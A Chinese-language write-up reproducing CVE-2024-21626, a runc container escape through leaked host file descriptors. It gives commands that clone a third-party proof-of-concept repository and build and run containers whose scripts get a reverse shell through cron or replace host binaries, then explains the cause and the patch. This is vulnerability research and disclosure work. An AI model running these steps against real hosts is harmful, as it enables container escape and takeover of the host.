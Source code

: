 # 【漏洞复现】CVE-2024-21626 docker runc逃逸漏洞

# 1、漏洞简介

| 漏洞名称 | docker runc逃逸漏洞 |
|---|---|
|漏洞编号 | CVE-2024-21626  |
| 披露日期 | 2024-01-31 |
| 特征 | / |
|影响版本| runc @ [v1.0.0-rc93,1.1.11]|


# 2、漏洞利用&POC/EXP
**利用条件**有点苛刻，需要受害者交互，个人认为有点鸡肋：
1. 使用攻击者的恶意镜像（包括一些对工作目录的设置等）创建容器
2. 攻击者可以控制容器，执行命令。

**漏洞存在验证与获取描述符：**
```bash
git clone https://github.com/V0WKeep3r/CVE-2024-21626-runcPOC.git
cd CVE-2024-21626-runcPOC
bash verify.sh
```
如下图，存在漏洞，且文件描述符为`/proc/self/fd8`
![](media/17071501238579/17071557756484.jpg)
verify.sh可以找出当前机器环境下对应的fd具体值，如果fd不为8，需要修改Dockerfile中的WORKDIR为对应的值或在`docker run`中使用`-w`指定。

**逃逸/提权验证：**
我这里更贴近实战，poc.sh使用定时任务反弹shell。
poc2.sh使用替换命令的方式（注意，使用该方式需要提前备份文件，以免难以恢复文件）。
```bash
# 需要确认定时任务文件存在，不存在可以创建写，但是那样不能触发定时任务
# 只有crontab -e创建的，在crontab组的文件才会被定时执行。
docker build . -t poc1
docker run -it --rm poc1 bash /poc.sh
```
![](media/17071501238579/17071562985583.jpg)
![](media/17071501238579/17071581615902.jpg)

POC2:
```bash
docker build . -t poc2
docker run -it --rm poc2 bash /poc.sh

# 另起一个terminal
/bin/bash.copy
```
![](media/17071501238579/17071597824837.jpg)


# 3、漏洞原理分析
不算完全理解，结合补丁能了解大概。

docker exec或者docker run这个过程中会调用 runc 的execve函数，但是runc exec过程中，没有关闭fd文件描述符，导致宿主机的文件描述符同时泄漏在了容器环境中，用户可以通过这个文件描述符来实现读写宿主机的文件，进而完成容器逃逸。

# 4、修复方案/补丁分析
**修复方案**
升级runc到1.12以上。runc官方链接：https://github.com/opencontainers/runc/releases

**补丁分析**
diff commit：https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e
在execve之前及时关闭内部fds
![](media/17071501238579/17071528589375.jpg)
`init_linux.go`，在 chdir 之后验证 cwd（当前工作目录）是否在容器内
![](media/17071501238579/17071529862666.jpg)


# F、参考链接
1. 漏洞描述：https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv
2. patch：https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e
